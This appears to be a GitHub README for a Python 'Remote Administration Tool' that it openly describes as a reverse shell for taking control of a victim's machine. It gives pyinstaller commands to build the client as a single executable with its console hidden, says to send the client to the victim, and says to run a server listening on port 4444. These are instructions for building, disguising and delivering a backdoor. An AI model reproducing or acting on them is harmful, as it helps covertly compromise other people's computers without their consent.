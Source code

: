 # **Remote Administration Tool**

### A reverse shell in which you can take control of the victim's machine.
> Is under development

## Transforming py to exe

### If python is installed, on console, write
- ``` pip install pyinstaller ``` **or** ``` python -m pip install pyinstaller ``` **| Its install the pyinstaller**
- ``` pyinstaller --onefile --windowed client.py ``` 
> --onefile | **Generate a single file**

> --windowed | **Hide the console**

> Send client.py to the victim.

## Listen port 4444
- ``` python server.py ``` **on 'IP:' write 0.0.0.0 and on 'PORT:' the port to listen ex, 4444**



### 👷‍ Building...
